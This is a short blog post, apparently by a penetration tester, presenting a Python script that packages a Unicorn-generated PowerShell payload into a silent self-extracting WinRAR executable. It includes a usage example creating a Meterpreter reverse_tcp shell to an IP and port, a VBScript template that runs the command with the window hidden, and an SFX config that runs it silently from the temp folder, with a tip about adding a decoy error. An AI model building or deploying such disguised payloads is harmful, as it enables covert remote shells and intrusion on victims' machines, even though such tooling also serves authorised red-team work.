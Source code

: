 ```yaml
---
layout: post
title: Making a Powershell EXE Payload
summary: A script to make a powershell payload into an executable
tags:
- payloads
- powershell
---
```


I've been using TrustedSec's [Unicorn](https://github.com/trustedsec/unicorn) a LOT over the past few months. In fact, it's become my go-to payload to pop a box. While it's awesome to be able to paste a command and get a shell, sometimes an EXE is required.

For those cases, I've made a script to make the whole process automated: `powershell_exe.py`



### tl;dr
`powershell_exe.py` uses winrar's commandline options under wine to make a self-extracting archive. [Source](https://github.com/bluscreenofjeff/Scripts/blob/master/powershell_exe.py)


**Setup instructions**

```bash
cd /opt
git clone https://github.com/trustedsec/unicorn.git

cd ~/Desktop
wget http://www.rarlab.com/rar/wrar511.exe
wine wrar511.exe
```

Now just go through the default options of winrar to finish the install.


**Usage:**

```python
python power_exe.py <payload> <ip address> <port>
Example: python power_exe.py windows/meterpreter/reverse_tcp 192.168.1.5 443
````


**Results**

The script outputs a `powerpay.exe` file and leaves Unicorn's `powershell_attack.txt` file. 

To have the script remove the Unicorn command, uncomment line 39: `system("rm powershell_attack.txt")`



### How it works

The script runs Unicorn using the provided options for payload, IP, and port. The result is the Powershell command text in `powershell_attack.txt`.


The code from `powershell_attack.txt` is inserted into the following vbscript file to call the command without that ugly black command prompt popping up:

```bash
Dim shell,command
command = "<POWERSHELLCOMMAND>"
Set shell = CreateObject("WScript.Shell")
shell.Run command,0
```


An `xfs.config` file is written for winrar:

```bash
;The comment below contains SFX script commands

Path=%Temp%
Setup=run.vbs
Silent=1
Overwrite=1
```

You can have multiple Setup lines in that file, so if you wanted to have the payload run and then create an error or run an intel script, you could just edit the config file, add the file creation to the script, and edit the wine command below.



Winrar's command line options are plentiful, but for our purposes the syntax is as follows:

```bash
wine /root/.wine/drive_c/Program\ Files/WinRAR/Rar.exe a -r -u -sfx -z'xfs.config' powerpay run.vbs
```

What the flags mean:

  * **a** : adds to the designated archive (powerpay in this case)
  * **-r** : recurses subfolders (if applicable)
  * **-u** : updates the archive with new files and adds the new files to the archive
  * **-sfx** : makes the archive an SFX (self-extracting) archive
  * **-z** : specifies the xfs.config file. Note there is no space between the flag and path to config file
  * **powerpay** : name of the archive. This will output as powerpay.exe
  * **run.vbs** : the file being added to the archive. You can add multiple files with spaces between the paths



That's it! It should probably be said that I am **not** a programmer, so the source is definitely not written the "right" way. 

